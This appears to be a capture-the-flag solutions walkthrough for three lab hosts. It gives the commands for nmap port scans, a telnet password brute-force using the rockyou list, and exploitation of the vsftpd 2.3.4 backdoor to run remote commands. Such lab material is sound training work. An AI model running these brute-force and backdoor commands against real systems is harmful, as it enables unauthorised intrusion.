 # Solutions

## Midnight West
We can start out by browsing to the first IP given in a web browser, which will
show a webpage. View the source of this webpage to get access to the SSH
credentials for this box. Then, log in with:
```
ssh hacker@<IPaddr>
```

## Midnight South
The IP for this host can be found in the `midnight_notes.txt`
file in the homedir in Midnight West. Use nmap to find open ports:
```
sudo nmap -sS -F -Pn <IPaddr>
```
Notice that port 23 is open (telnet). Based on the notes listed, we know that
there's a user that's probably on this system named `mantic0re`. We'll try to
brute-force their login using nmap's telnet brute-force capabilities, and a
well known password list, the rockyou dump. You can get the rockyou list here:
http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2
```
echo "mantic0re" > user.txt
wget http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2
bunzip2 rockyou.txt.bz2
sudo nmap -p 23 --script telnet-brute --script-args 'userdb=user.txt,passdb=rockyou.txt' <IPaddr>
```
This will reveal the `mantic0re` user's password. You should now be able to log
into the "midnight south" host via telnet.

## Midnight Core
You can find the IP for this host inside `mantic0re`'s `.ssh/known_hosts` file.
There's a hint about this in the INSTRUCTIONS file that's in that user's
homedir. When a user SSHes to a host, a record of that host's IP is usually
left in this file, unless a user has turned on known-host-hashing, which many
do not do. We'll start with a portscan, as usual:
```
sudo nmap -sS -F -Pn <IPaddr>
```
This reveals two ports open, 21 for `ftp` and 22 for `ssh`. `mantic0re`'s
credentials don't appear to work here, so let's target the FTP service. We can
start with a version scan to find out what FTP server this is:
```
sudo nmap -sS -sV -p 21 <IPaddr>
```
This reveals that this is vsftpd 2.3.4. Some googling indicates that this
version of vsftpd was actually backdoored, and there's a script to exploit it
built into nmap. We can exploit this host with:
```
sudo nmap --script ftp-vsftpd-backdoor --script-args 'ftp-vsftpd-backdoor.cmd="ls /"' -p 21 <IPaddr>
```
By modifying the `ftp-vsftpd-backdoor.cmd` value, we can run new commands on
the "core" server, until we find the secret that `mantic0re`'s co-hacker has
left behind.
